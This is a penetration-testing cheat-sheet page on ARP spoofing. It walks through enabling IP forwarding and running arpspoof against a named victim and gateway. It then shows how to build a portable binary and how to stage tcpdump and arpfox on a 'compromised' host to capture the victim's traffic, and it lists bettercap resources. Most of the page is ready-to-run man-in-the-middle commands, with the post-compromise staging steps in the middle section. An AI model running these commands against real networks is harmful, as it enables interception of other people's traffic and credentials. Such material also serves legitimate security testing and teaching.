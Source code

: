 ```yaml
---
description: Address Resolution Protocol
---
```


# ARP Spoofing

Enable IP forwarding:

```
$ sudo sysctl -w net.ipv4.ip_forward=1
(sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward')
(edit /etc/sysctl.conf "net.ipv4.ip_forward = 1" to make it permanent)
```




## arpspoof (dsniff)

* [https://github.com/tecknicaltom/dsniff](https://github.com/tecknicaltom/dsniff)
* [https://github.com/GregHoff/dsniff](https://github.com/GregHoff/dsniff)

Install:

```
$ sudo apt install dsniff -y
```

Fire up the attack with Wireshark (filter `ip.src == VICTIM_10.0.0.5`) running:

```
$ sudo arpspoof [-i eth0] [-c both] -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1 [-r]
```

![](/.gitbook/assets/009.png)



### Portable

* [https://github.com/byt3bl33d3r/arpspoof](https://github.com/byt3bl33d3r/arpspoof)
* [https://github.com/malfunkt/arpfox](https://github.com/malfunkt/arpfox)

As a portable alternative one may use the Python port of arpspoof compiled with PyInstaller:

```
$ sudo apt install virtualenv
$ pip install pyinstaller=3.5
$ git clone https://github.com/byt3bl33d3r/arpspoof
$ cd arpspoof
$ virtualenv -p `which python2` venv
$ . venv/bin/activate
$ pip install -r requirements.txt
$ pyinstaller --onefile --paths venv/lib/python2.7/site-packages arpspoof/arpspoof.py
$ file dist/arpspoof
```

Another approach is to download Python dependencies locally and install them on a compromised Linux host:

```
Dev$ pip download --no-binary=:all: -r requirements.txt
Compromised$ python -m pip install --no-index --find-links . -r requirements.txt
```

If you need to launch ARP spoofing on another distro (CentOS, for example), then installing OS dependencies and using a portable binary may be easier:

```
Dev$ mkdir /tmp/tcpdump && yum install --downloadonly --downloaddir=/tmp/tcpdump tcpdump
Dev$ ls /tmp/tcpdump
libpcap-1.5.3-12.el7.x86_64.rpm  tcpdump-4.9.2-4.el7_7.1.x86_64.rpm

Compromised$ rpm -i libpcap*.rpm tcpdump*.rpm
Compromised$ tcpdump -nvv -i eth0 -s 65535 -w arpfox.pcap "src host VICTIM_10.0.0.5"
Compromised$ ./arpfox -l
Compromised$ ./arpfox -i eth0 -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1
```




## bettercap

* [https://github.com/bettercap/bettercap](https://github.com/bettercap/bettercap)
* [https://www.bettercap.org/modules/](https://www.bettercap.org/modules/)
* [https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/](https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/)
* [https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy](https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy)
* [https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets](https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets)

Deb dependencies (Ubuntu 18.04 LTS):

* [libpcap0.8_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [pkg-config_0.29.1-0ubuntu2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/pkg-config_0.29.1-0ubuntu2_amd64.deb.html)
* [libnetfilter-queue1_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue1_1.0.2-2_amd64.deb.html)
* [libnfnetlink-dev_1.0.1-3_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libnfnetlink-dev_1.0.1-3_amd64.deb.html)
* [libnetfilter-queue-dev_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue-dev_1.0.2-2_amd64.deb.html)
